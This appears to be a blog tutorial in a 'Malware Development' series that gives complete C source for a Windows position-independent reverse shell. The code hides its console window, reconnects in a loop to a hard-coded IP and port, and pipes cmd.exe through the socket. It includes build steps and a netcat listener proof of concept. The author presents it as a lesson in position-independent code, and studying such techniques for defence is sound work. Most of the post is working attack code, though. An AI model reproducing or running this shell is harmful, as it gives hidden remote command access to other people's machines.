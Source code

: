 ```yaml
---
title: "Shellcode - Pt 3: Reverse Shell"
description: This time we'll develop a reverse shell using cmd.exe + socks. Here, we'll make extensive use of the functionalities seen in the previous modules of this Shellcoding chapter.
author: Oblivion
date: 2024-05-23 11:33:00 +0800
categories: [Malware Development]
tags: []
pin: false
math: true
mermaid: true
---
```



# Project Architecture

```
.
├── bin
│   └── shellcode.exe
├── include
│   ├── common.h
│   ├── core
│   │   └── win32.h
│   └── structs.h
├── makefile
├── scripts
│   └── extract.py
└── src
    ├── asm
    │   └── entry.asm
    ├── core
    │   ├── mem.c
    │   ├── strman.c
    │   └── win32.c
    └── main.c
```

# Reverse Shell

```c
void Main() {

    INSTANCE Instance = { 0 };
    InitInstance(&Instance);

    Instance.Api.pFreeConsole();

    char Host[] = "192.168.0.101";
    int  Port    = 8888;

    while(TRUE) {

        Instance.Api.pSleep(5000); 

        SOCKET      Socket  = { 0 };
        SOCKADDR_IN Addr    = { 0 };
        WSADATA     version = { 0 };

        Instance.Api.pWSAStartup(MAKEWORD(2,2), &version);
        Socket = Instance.Api.pWSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
        
        Addr.sin_family      = AF_INET;
        Addr.sin_addr.s_addr = Instance.Api.pinet_addr(Host); 
        Addr.sin_port        = Instance.Api.phtons(Port); 
        

        if (Instance.Api.pWSAConnect(Socket, (SOCKADDR*)&Addr, sizeof(Addr), NULL, NULL, NULL, NULL) != SOCKET_ERROR) {
            char RecvData[DEFAULT_BUFLEN];
            MemSet(RecvData, 0, sizeof(RecvData));
            int RecvCode = Instance.Api.pRecv(Socket, RecvData, DEFAULT_BUFLEN, 0);
            
            if (RecvCode > 0) {
                STARTUPINFO         Si = { 0 };
                PROCESS_INFORMATION Pi = { 0 };
                
                CHAR ccmd[]  = { 'c', 'm', 'd', '.', 'e', 'x', 'e', 0 };
                CHAR cexit[] = { 'e', 'x', 'i', 't', '\n', 0 };

                MemSet(&Si, 0, sizeof(Si));
                Si.cb        = sizeof(Si);
                Si.dwFlags   = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
                Si.hStdInput = Si.hStdOutput = Si.hStdError = (HANDLE)Socket;
                
                Instance.Api.pCreateProcess(NULL, ccmd, NULL, NULL, TRUE, 0, NULL, NULL, &Si, &Pi);
                
                Instance.Api.pWaitForSingleObject(Pi.hProcess, INFINITE);
                
                Instance.Api.pCloseHandle(Pi.hProcess);
                Instance.Api.pCloseHandle(Pi.hThread);
                
                MemSet(RecvData, 0, sizeof(RecvData));
                RecvCode = Instance.Api.pRecv(Socket, RecvData, DEFAULT_BUFLEN, 0);
                
                if (RecvCode > 0 && StringCompareA(RecvData, cexit) == 0) {
                    Instance.Api.pExitProcess(0);
                }
            }
            
            Instance.Api.pclosesocket(Socket);
        }
        
        Instance.Api.pWSACleanup();
    }
}
```

Let's go straight to the reverse shell. First, the function FreeConsole() is used to disable the console window so it won't be visible to the user. Then, there's a Sleep with an infinite loop that will sleep if disconnected and then try to reconnect. Next, we'll open a SOCKS connection to our Host and Port. After setting everything up, it tries to connect to the server. If the connection is successful, it receives data from the server and stores it in a buffer. Therefore, we'll create a process with CreateProcess WinAPI, initializing cmd.exe, and initializing the PROCESS INFORMATION and STARTUPINFO structures.

PROCESS INFORMATION is filled with the main Thread ID, Process ID, Handle for the Process, and Handle for the main Thread. STARTUPINFO is used to set up input and output redirection for the created process.

```c
typedef struct _PROCESS_INFORMATION {
  HANDLE hProcess;
  HANDLE hThread;
  DWORD  dwProcessId;
  DWORD  dwThreadId;
} PROCESS_INFORMATION, *PPROCESS_INFORMATION, *LPPROCESS_INFORMATION;
```

The STARTUPINFO structure contains details about everything that needs to be done before the process starts. We are using this structure to redirect input and output to the socket handle.

```c
typedef struct _STARTUPINFOA {
  DWORD  cb;
  LPSTR  lpReserved;
  LPSTR  lpDesktop;
  LPSTR  lpTitle;
  DWORD  dwX;
  DWORD  dwY;
  DWORD  dwXSize;
  DWORD  dwYSize;
  DWORD  dwXCountChars;
  DWORD  dwYCountChars;
  DWORD  dwFillAttribute;
  DWORD  dwFlags;
  WORD   wShowWindow;
  WORD   cbReserved2;
  LPBYTE lpReserved2;
  HANDLE hStdInput;
  HANDLE hStdOutput;
  HANDLE hStdError;
} STARTUPINFOA, *LPSTARTUPINFOA;
```

# POC

This POC will be quite simple; I'll use the Loader (Ldr) again, as explained in the parent chapter of shellcoding. The first step is to compile the entire project, and for that, I'll use the makefile again with the command make.

![img](../commons/reverse_shell/img1.png)

Now we need to open a port with netcat to receive the reverse connection.

![img](../commons/reverse_shell/img2.png)

Now we will execute the Loader (Ldr) to run our payload.

![img](../commons/reverse_shell/img3.png)

Now we'll check our listening server and see that we've received the connection. 😁

![img](../commons/reverse_shell/img4.png)

# Observations

When executed, the reverse shell will spawn a cmd.exe as a child process. The idea of the shellcoding project is by no means to be evasive, but rather to explain PIC (Position Independent Code) concepts in general.

## [Github Repository](https://github.com/Entropy-z/Shellcoding-Reverse_Shell)

